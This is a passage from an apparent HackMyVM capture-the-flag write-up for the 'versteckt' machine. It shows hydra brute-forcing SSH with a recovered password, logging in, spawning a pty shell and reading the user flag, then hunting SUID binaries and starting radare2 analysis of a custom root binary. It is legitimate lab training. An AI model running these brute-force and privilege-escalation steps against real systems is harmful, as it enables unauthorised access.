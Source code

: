 I used this decoded password with the usernames from the database to brute force SSH access:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/versteckt]
└─$ hydra -L users.txt -p kr4k4t04th3b3sTpl4c3 192.168.1.9 -s 22334 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-25 11:33:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:17/p:1), ~2 tries per task
[DATA] attacking ssh://192.168.1.9:22334/
[22334][ssh] host: 192.168.1.9   login: benjamin   password: kr4k4t04th3b3sTpl4c3
```

Successfully found credentials: `benjamin:kr4k4t04th3b3sTpl4c3`

I logged in as `benjamin` and obtained the user flag:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/versteckt]
└─$ ssh benjamin@192.168.1.9 -p 22334
benjamin@192.168.1.9's password: 
Linux versteckt 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64
# ... (login banner) ...
$ python3 -c "import pty;pty.spawn('/bin/bash')"
benjamin@versteckt:~$ ls
user.txt
benjamin@versteckt:~$ cat user.txt
HMV{y0uR3gR34T}
```

The user flag is `HMV{y0uR3gR34T}`.

### 12. Privilege Escalation Analysis

I searched for SUID binaries and found an interesting custom binary:

```shellscript
benjamin@versteckt:~$ find / -perm -4000 -ls 2> /dev/null
# ... (standard SUID binaries) ...
   282625     20 -rwsrwx---   1 root     benjamin      16712 Nov 27  2021 /usr/bin/chsn
# ... (other binaries) ...
```

The `/usr/bin/chsn` binary was SUID root and owned by `benjamin` group with special permissions.

### 13. Binary Analysis

I copied the binary to my local machine and analyzed it with radare2:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/versteckt]
└─$ scp -P 22334 benjamin@192.168.1.9:/usr/bin/chsn ./
benjamin@192.168.1.9's password: 
chsn                                                                                                                                 100%   16KB   3.5MB/s   00:00

┌──(zengla㉿kali)-[~/Desktop/hackmyvm/versteckt]
└─$ r2 -d chsn
[0x7f37d20b9440]> aaa
[0x7f37d20b9440]> pdf @ main
            ; DATA XREF from entry0 @ 0x557ae9d5608d(r)
┌ 44: int main (int argc, char **argv, char **envp);
│           0x557ae9d56155      55             push rbp
│           0x557ae9d56156      4889e5         mov rbp, rsp
│           0x557ae9d56159      bf00000000     mov edi, 0
```